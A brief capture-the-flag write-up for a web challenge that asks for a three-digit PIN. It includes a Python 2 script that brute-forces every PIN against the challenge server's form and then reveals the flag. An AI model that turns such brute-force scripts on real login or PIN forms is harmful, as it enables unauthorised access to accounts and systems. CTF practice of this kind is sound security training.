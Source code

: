 # CTF Writeup
The challenge will be available on `http://challenges.at10a.net:8080/web09/`

# Requirement from challenge
This challenge require you to enter 3-digits pin, if correct then flag will be showed.

# Solving
I wrote a script to bruteforce this pin, using `urllib`, `urllib2`, `string`, `itertools`, `sys`, `bs4` library.

# Script
```python
import urllib, urllib2
import string
import itertools, sys
from bs4 import BeautifulSoup
url = "http://challenges.at10a.net:8080/web09/"
for i in itertools.product('0123456789',repeat=3):
    value = {'num':  str(''.join(i))}
    data = urllib.urlencode(value)
    req = urllib2.Request(url,data)
    res = BeautifulSoup(urllib2.urlopen(req), 'html.parser').get_text()
    if 'Wrong pin!' not in res:
        print ''.join(i)
        sys.exit(0)
```
Run it with python

# The flag is : BMC{why_c0uld_7h3_fb1_n07_bru73f0rc3_7h3_1ph0n3?}